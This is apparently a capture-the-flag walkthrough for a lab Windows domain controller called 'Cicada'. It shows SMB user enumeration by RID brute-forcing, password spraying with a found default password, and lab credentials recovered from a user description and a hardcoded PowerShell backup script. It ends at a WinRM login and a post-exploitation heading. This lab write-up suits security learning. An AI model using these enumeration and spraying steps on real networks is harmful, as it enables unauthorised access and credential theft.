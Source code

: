 AND WE HAVE A PASSWORD :  Cicada$M6Corpb*@Lp#nZp!8

### ENUMRATING USERS

```bash
nxc smb 10.10.11.35 -u '.' -p '' --rid-brute
```

AND WE HAVE SOME USERS

<img width="1169" height="249" alt="image" src="https://github.com/user-attachments/assets/6fdd02c5-63b9-48d9-a856-5dd0c6b31f92" />


ADDING THIS USERS TO FILE AND ATTEMPTING TO PASSWORD USING THE ABOVE PASSWORD.

<img width="1340" height="117" alt="image" src="https://github.com/user-attachments/assets/749b0f32-c317-4ef5-974b-a6e8d14cf198" />


### MORE ENUM

NOW ENUMERATING MORE USING THE ABOVE CREDS

```bash
SMB         10.10.11.35     445    CICADA-DC        david.orelious                2024-03-14 12:17:29 0       Just in case I forget my password is aRt$Lp#7t*VQ!3
```

NOW CONNECTING TO THE DEV SHARE USING THE ABOVE CREDS

<img width="962" height="147" alt="image" src="https://github.com/user-attachments/assets/89473dff-6783-440f-922c-b390ea1ddb5f" />


WE HAVE A BACKUP SCRIPT.

```bash
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"

```

WE HAVE SOME MORE CREDS

NOW CONNECTING TO THE MACHINE USING evil-einrm

<img width="1017" height="335" alt="image" src="https://github.com/user-attachments/assets/a421f1ca-a3b5-41b3-94dd-e2970569d5eb" />


### POST EXPLOITATION
